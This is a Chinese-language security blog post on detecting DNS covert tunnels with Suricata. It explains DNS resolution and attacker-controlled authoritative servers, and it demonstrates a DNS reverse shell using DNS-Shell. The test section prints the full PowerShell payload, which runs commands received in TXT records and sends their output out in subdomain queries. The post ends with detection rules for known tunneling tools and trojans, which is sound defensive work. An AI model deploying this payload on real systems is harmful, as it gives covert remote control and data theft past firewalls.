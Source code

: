 Title: NIDS（suricata） 中的 DNS隐蔽隧道检测
Date: 2019-07-08 20:20
Modified: 2019-07-08 20:20
Category: 安全
Tags: nids
Slug: M5
Authors: nJcx
Summary: NIDS 中的 DNS隐蔽隧道检测~


#### DNS介绍

![icmp](../images/tcpip.gif)

我们先简单介绍一下 DNS协议，DNS协议是一个应用层协议，用来将域名转换为IP地址（也可以将IP地址转换为相应的域名地址），类似一个分布式数据库，数据通过udp传输,IP报头中的协议字段值为17.

DNS协议报文格式

![dns](../images/dns-protocol-format.png)

通过wireshark 抓到的包：

![dns](../images/dnswireshark.png)

由于关于dns报文介绍太长，参考下面url 

[DNS协议详解及报文格式分析](https://www.cnblogs.com/davidwang456/articles/10660051.html)


![dns](../images/dnsq.jpeg)

关于DNS请求的方式如图，
具体可描述如下： 

	1. 主机先向本地域名服务器进行递归查询 
	
	2. 本地域名服务器采用迭代查询，向一个根域名服务器进行查询 
	
	3. 根域名服务器告诉本地域名服务器，下一次应该查询的顶级域名服务器的IP地址 
	
	4. 本地域名服务器向顶级域名服务器进行查询 
	
	5. 顶级域名服务器告诉本地域名服务器，下一步查询权限服务器的IP地址 
	 
	6. 本地域名服务器向权威服务器进行查询 
	
	7. 权限服务器告诉本地域名服务器所查询的主机的IP地址 
	
	8. 本地域名服务器最后把查询结果告诉主机 


![dns](../images/dnstun.jpeg)


如果在企业内网，那么黑客的攻击机器，就是所谓的权威服务器

	第一步: 受控机向内部dns服务器发送一个查询NKNFjklKLuJNVIUM.ml.org的请求
	
	第二步：内部dns服务器通过防火墙向根dns服务器发出查询请求
	
	第三步：经过大量迭代后，DNS请求到达NKNFjklKLuJNVIUM.ml.org的权威DNS服务器（黑客所控制）
	
	第四步：受控机请求查询的响应通过防火墙返回到内部DNS服务器
	
	第五步：内部DNS服务器将响应结果返回给受控机


上面的流程展示了一个受控机在连接外部网络时dns解析的一个过程。由于防火墙并没有对dns协议做任何处理，所以我们可以通过这种方式来穿透防火墙。

这里很多人会有一个疑问，关于dns 请求查询NKNFjklKLuJNVIUMvKL.ml.org 是怎么到达黑客所控制的权威DNS服务器的？

请求一个域名，比如NKNFjklKLuJNVIUMvKL.ml.org ,本地DNS服务器上没有 NKNFjklKLuJNVIUMvKL.ml.org，那么它将向root，也就是根域名服务器请求，看看根知道不, root一看是.org的域名，就交 给.org域名服务器进行解析，.org的域名服务器一看是.ml.org那么就会去找.ml.org的域名服务器 (ns1.myhostadmin.net),看看它有没有这条记录，.ml.org的域名服务器上一看是.ml.org，如果它有这 条A记录，那么就会返回NKNFjklKLuJNVIUMvKL.ml.org 的记录。

但是，如果没有，你可以再在ml.org的域名服务器上设定一个NS 类型的记录，如：ml.org NS 111.222.333.444(通常这里不让设置为地址，你可以先在DNS服务器上添加一条A记录，如ns.ml.org A 111.222.333.444，再添加NS记录：ml.org NS ns.xxx.org)，这里指定一个公网服务器，就是黑客所控制的权威DNS服务器。


#### 测试


我们测试一下使用dns反弹shell，用于测试的域名： test.njcx.bid

该域名的dns服务器位于  ns1.njcx.bid（公网ip：111.222.333.444）


受控机Windows7 ：  172.16.42.134

控制机 CentOS7：  111.222.333.444

我们用到的工具
[DNS-Shell](https://github.com/sensepost/DNS-Shell)，我们在 CentOS7 上面执行  python DNS-shell.py -l -r test.njcx.bid ，接收由受控机过来的shell，执行后会生成一个 powershell的payload,保存为 ps1 Windows执行即可收到shell

```
$url = "test.njcx.bid";
function execDNS($cmd) {
$c = iex $cmd 2>&1 | Out-String;
$u = [system.Text.Encoding]::UTF8.GetBytes($c);
$string = [System.BitConverter]::ToString($u);
$string = $string -replace '-','';
$len = $string.Length;
$split = 50;
$repeat=[Math]::Floor($len/$split);
$remainder=$len%$split;
if($remainder){ $repeatr = $repeat+1};
$rnd = Get-Random;$ur = $rnd.toString()+".CMDC"+$repeatr.ToString()+"."+$url;
$q = nslookup -querytype=A $ur;
for($i=0;$i-lt$repeat;$i++){
    $str = $string.Substring($i*$Split,$Split);
    $rnd = Get-Random;$ur1 = $rnd.toString()+".CMD"+$i.ToString()+"."+$str+"."+$url;
    $q = nslookup -querytype=A $ur1;
};
if($remainder){
    $str = $string.Substring($len-$remainder);
    $i = $i +1
    $rnd = Get-Random;$ur2 = $rnd.toString()+".CMD"+$i.ToString()+"."+$str+"."+$url;
    $q = nslookup -querytype=A $ur2;
};
$rnd=Get-Random;$s=$rnd.ToString()+".END."+$url;$q = nslookup -querytype=A $s;
};
while (1){
   $c = Get-Random;
   Start-Sleep -s 3
   $u=$c.ToString()+"."+$url;$txt = nslookup -querytype=TXT $u | Out-String
   $txt = $txt.split("`n") | %{$_.split('"')[1]} | Out-String
   if ($txt -match 'NoCMD'){continue}
   elseif ($txt -match 'exit'){Exit}
   else{execDNS($txt)}
}   

```

shell 如下，

![dnsshell](../images/dnsshell.png)

我在被控机上抓包，如图，可以看出受控机器一直TXT请求 CentOS 控制机

![dnsshell](../images/WechatIMG25.jpeg)

![dnsshell](../images/WechatIMG26.jpeg)

可以看出我们的payload是 放到TXT字段里面，由CentOS 控制机响应给客户端的

![dnsshell](../images/WechatIMG21.jpeg)


然后，数据都分段放到子域名里面，分多次，再次用请求的方式，发送到我们的控制机器上了

![dnsshell](../images/WechatIMG23.jpeg)

#### 检测


我们可以看出一些特征 ：
	
	1， 请求的Type一般都是TXT（为了返回的时候能够加入更多的信息）。
	2， payload部分一般都会编码（可能为base64、2进制或16进制）后放到子域名里面，而且多变，不一致
	3， DNS发生频率很高，短时间为了发送大量数据，会产生大量请求
	
比如，DNS  TXT请求频率过高，就报警，例子如下

```
alert udp any any -> any 53 (msg:"High TXT requests - Potential DNS Tunneling"; content:"|01 00|"; offset:2; within :4; content:"|00 00 10 00 01|"; offset:12; within:255; threshold: type threshold, track by_src, count 10, seconds 5; sid: 5700002; rev: 1;)
```	
	
下面，收集了很多知名DNS利用工具的检测规则。

```javascript
alert udp $EXTERNAL_NET 53 -> $HOME_NET any (msg:"APP-DETECT iodine dns tunneling handshake server ACK"; flow:to_client; byte_test:1,&,0x80,2; content:"|00 01 00 01 00|"; depth:5; offset:4; content:"v"; within:1; distance:4; content:"VACK"; within:200; fast_pattern; metadata:service dns; reference:url,code.kryo.se/iodine/README.html; classtype:policy-violation; sid:27046; rev:3;)

alert udp $HOME_NET any -> any 53 (msg:"APP-DETECT OzymanDNS dns tunneling up attempt"; flow:to_server,no_stream; content:"|01 00 00 01 00 00 00 00 00 00|"; depth:10; offset:2; content:"-0"; distance:6; content:"id-"; within:3; distance:1; fast_pattern; content:"up"; within:8; detection_filter:track by_src, count 18, seconds 1; metadata:impact_flag red, service dns; reference:url,dankaminsky.com/2004/07/29/51/; classtype:policy-violation; sid:27540; rev:4;)

alert udp $HOME_NET any -> any 53 (msg:"APP-DETECT OzymanDNS dns tunneling down attempt"; flow:to_server,no_stream; content:"|01 00 00 01 00 00 00 00 00 00|"; depth:10; offset:2; content:"id-"; distance:6; fast_pattern; content:"down"; within:10; distance:2; detection_filter:track by_dst, count 8, seconds 1; metadata:impact_flag red, service dns; reference:url,dankaminsky.com/2004/07/29/51/; classtype:policy-violation; sid:27541; rev:4;)

alert udp $HOME_NET any -> any 53 (msg:"APP-DETECT Your-Freedom DNS tunneling query attempt"; flow:to_server; byte_test:1,!&,0xF8,2; content:"|03|s"; nocase; content:"|03|1yf|02|de|00|"; distance:2; nocase; metadata:service dns; reference:url,your-freedom.net; classtype:misc-activity; sid:34496; rev:1;)

alert udp $EXTERNAL_NET 53 -> any any (msg:"APP-DETECT Your-Freedom DNS tunneling query response attempt"; flow:to_client; byte_test:1,!&,0x01,2; content:"|03|s"; nocase; content:"|03|1yf|02|de|00|"; distance:2; nocase; metadata:service dns; reference:url,your-freedom.net; classtype:misc-activity; sid:34497; rev:1;)

alert udp $HOME_NET any -> any 53 (msg:"INDICATOR-OBFUSCATION DNS tunneling attempt"; flow:to_server; byte_test:1,!&,0xF8,2; content:"|00 01 00 00 00 00 00 00 1A|"; depth:9; offset:4; content:"|1A|"; within:1; distance:26; content:"|02|"; within:2; distance:26; metadata:service dns; classtype:policy-violation; sid:25983; rev:2;)

alert udp $EXTERNAL_NET 53 -> $HOME_NET any (msg:"INDICATOR-OBFUSCATION DNS tunneling attempt"; flow:to_client,no_stream; content:"|00 01 00 01 00 00 00 00|"; depth:8; offset:4; content:"|00 07 06|(){}[]"; fast_pattern; content:"|00 0A 00 01|"; within:4; distance:-17; detection_filter:track by_src, count 25, seconds 1; metadata:service dns; classtype:policy-violation; sid:37891; rev:2;)

alert udp $HOME_NET any -> $EXTERNAL_NET 53 (msg:"INDICATOR-OBFUSCATION DNS tunneling attempt"; flow:to_server,no_stream; content:"|00 01 00 00 00 00 00 00|"; depth:8; offset:4; isdataat:80,relative; content:"|00 0A 00 01|"; within:15; distance:80; fast_pattern; detection_filter:track by_src, count 25, seconds 1; metadata:service dns; classtype:policy-violation; sid:37892; rev:2;)

sid:2100208 (Tunneling IP over DNS with NSTX)
alert udp any any -> any 53 (msg:"GPL POLICY MISC Tunneling IP over DNS with NSTX"; byte_test: 1,>,32,12; content: "|00 10 00 01|"; offset: 12; rawbytes; threshold: type threshold, track by_src, count 50, seconds 60; reference:url,nstx.dereference.de/nstx/; reference:url,slashdot.org/articles/00/09/10/2230242.shtml; classtype:policy-violation; sid:2100208; rev:3; metadata:created_at 2010_09_23, updated_at 2010_09_23;)

sid:2024504 (ET TROJAN ISMAgent)
alert udp $HOME_NET any -> any 53 (msg:"ET TROJAN ISMAgent DNS Tunneling (microsoft-publisher . com)"; content:"|01 00 00 01 00 00 00 00 00 00|"; depth:10; offset:2; content:"|13|microsoft-publisher|03|com|00|"; nocase; distance:0; fast_pattern; threshold:type limit, track by_src, count 1, seconds 60; metadata: former_category TROJAN; reference:md5,a70a08a1e17b820c7dc8ee1247d6bfa2; reference:url,researchcenter.paloaltonetworks.com/2017/07/unit42-oilrig-uses-ismdoor-variant-possibly-linked-greenbug-threat-group/; classtype:trojan-activity; sid:2024504; rev:3; metadata:affected_product Windows_XP_Vista_7_8_10_Server_32_64_Bit, attack_target Client_Endpoint, deployment Perimeter, signature_severity Major, created_at 2017_07_28, malware_family Ismdoor, performance_impact Moderate, updated_at 2017_07_31;)

sid:2025072 (ET TROJAN Patchwork)
alert dns $HOME_NET any -> any any (msg:"ET TROJAN Patchwork DNS Tunneling (nsn1.winodwsupdates .me)"; dns_query; content:".nsn1.winodwsupdates.me"; isdataat:!1,relative; metadata: former_category TROJAN; reference:url,docs.google.com/document/d/1oYX3uN6KxIX_StzTH0s0yFNNoHDnV8VgmVqU5WoeErc; classtype:trojan-activity; sid:2025072; rev:2; metadata:affected_product Windows_XP_Vista_7_8_10_Server_32_64_Bit, attack_target Client_Endpoint, deployment Perimeter, signature_severity Major, created_at 2017_11_27, malware_family Patchwork, performance_impact Low, updated_at 2017_11_27;)

sid:2025894 (ET TROJAN OilRig)
alert dns $HOME_NET any -> any 53 (msg:"ET TROJAN OilRig QUADAGENT DNS Tunneling"; content:"|01|"; offset:2; depth:1; content:"|00 01 00 00 00 00 00|"; distance:1; within:7; content:"|04|mail|06|"; distance:0; nocase; pcre:"/^\d{6}/Ri"; content:"|07|cpuproc|03|com|00|"; fast_pattern; distance:0; within:13; nocase; threshold: type limit, count 1, seconds 60, track by_src; metadata: former_category TROJAN; reference:md5,d51c2ffce844d42bab2f2c3131e3dbd4; reference:url,researchcenter.paloaltonetworks.com/2018/07/unit42-oilrig-targets-technology-service-provider-government-agency-quadagent/; classtype:trojan-activity; sid:2025894; rev:2; metadata:affected_product Windows_XP_Vista_7_8_10_Server_32_64_Bit, attack_target Client_Endpoint, deployment Perimeter, signature_severity Major, created_at 2018_07_25, malware_family QuadAgent, performance_impact Low, updated_at 2018_07_25;)

```